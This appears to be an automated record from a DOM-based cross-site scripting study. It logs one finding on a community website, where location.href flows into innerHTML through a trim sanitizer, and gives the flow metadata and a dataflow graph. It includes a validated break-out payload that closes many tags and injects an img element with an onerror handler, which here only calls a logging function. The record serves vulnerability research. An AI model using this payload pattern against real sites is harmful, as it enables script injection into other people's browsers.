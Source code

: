 // Finding: 87e335dc-ed12-45c7-b650-3c6a41b88812
// Finding.url: https://community.example65.com/de-de/start##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('790528715a7c459698ec5766fab8d122')><!--/*
// Finding.parentloc: https://community.example65.com/de-de/start##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('790528715a7c459698ec5766fab8d122')><!--/*
// Finding.domain: community.example65.com
// Finding.base_domain: example65.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: trim
// Sanitizer.location: https://community.example65.com/frontend/brandings/tchibo_2016_08/view/ressources/patternlib/4696971ebabc7df2.js - trim:2:3111
// Finding.begin: 0
// Finding.end: 121
// Finding.original_uuid: 20a8e960-653c-4d3c-90a9-b6e4115128fd
// Finding.TwentyFiveMillionFlowsId: 740945078
// Finding.script: https://community.example65.com/frontend/brandings/tchibo_2016_08/view/ressources/patternlib/4696971ebabc7df2.js
// Finding.line: 3
// Exploit.uuid: 79052871-5a7c-4596-98ec-5766fab8d122
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: filter
// Exploit.quote_type: "
// Exploit.tag: path
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 39
// Exploit.replace_begin_url: 39
// Exploit.replace_end_url: 39
// Exploit.replace_begin_param: 11392
// Exploit.replace_end_param: 11392
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1773684504
// DepGraph.sanitizer_hash: -1958185742

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="."];
n2 [shape=box, label="Lit: .content_data_tchibo_inlinemenu a[href='"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: ']"];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /^[\s\uFEFF\xA0]+|[\s\uFEFF\xA0]+$/"];
n7 [shape=box, label="Lit: "];
n8 [shape=box, label="Var: x"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n1 -> n2;
n1 -> n0;
n3 -> n1;
n3 -> n4;
n8 -> n3;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}